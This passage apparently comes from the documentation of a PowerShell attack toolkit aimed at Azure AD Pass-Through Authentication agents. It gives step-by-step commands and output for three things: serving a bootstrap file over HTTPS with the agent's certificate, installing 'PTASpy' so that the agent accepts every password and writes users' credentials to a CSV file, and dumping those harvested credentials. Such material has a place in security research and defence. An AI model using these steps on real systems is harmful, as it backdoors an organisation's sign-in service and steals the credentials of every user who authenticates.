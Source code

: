 **To manually start the http server, you need the thumbprint of the certificate**:

{{< highlight powershell >}}
# List the certificates
Get-ChildItem Cert:\LocalMachine\My | Where Subject -Like *msappproxy.net
{{< /highlight>}}
**Output:**
```
Thumbprint                                Subject
----------                                -------
78D2B492C672D904CF2B5579659AC397E6D65F38  CN=95265eb2-xxxx-4xxx-xxxx-xxxxxxxxxxxx.pta.bootstrap.his.msappproxy.net
```
**To start the http server:**

{{< highlight powershell >}}
# Start the http server
.\Start-HttpServer.ps1 -Thumbprint "78D2B492C672D904CF2B5579659AC397E6D65F38" -FileToServe .\bootstrap.xml -ContentType "text/xml" -Verbose
{{< /highlight>}}
**Output:**
```
VERBOSE: Removing existing SSL bindings
VERBOSE: Binding 78D2B492C672D904CF2B5579659AC397E6D65F38 to 0.0.0.0:443
Listening https://*:443/
To exit, browse to: https://*:443/exit
```

### Install-PTASpy.ps1

After the computer or PTA agent is restarted, PTASpy must be installed again.

**To install PTASpy:**

{{< highlight powershell >}}
# Install PTASpy
.\Install-PTASpy
{{< /highlight>}}
**Output:**
```
WARNING: Waiting for service 'Microsoft Azure AD Connect Authentication Agent (AzureADConnectAuthenticationAgent)' to start...
Installation successfully completed!
All passwords are now accepted and credentials collected to C:\PTASpy\PTASpy.csv
```

### Dump-Credentials.ps1

This script is used to dump the harvested credentials. Basically, it just shows the content of C:\PTASpy\PTASpy.csv file, where PTASpy stores the harvested credentials.
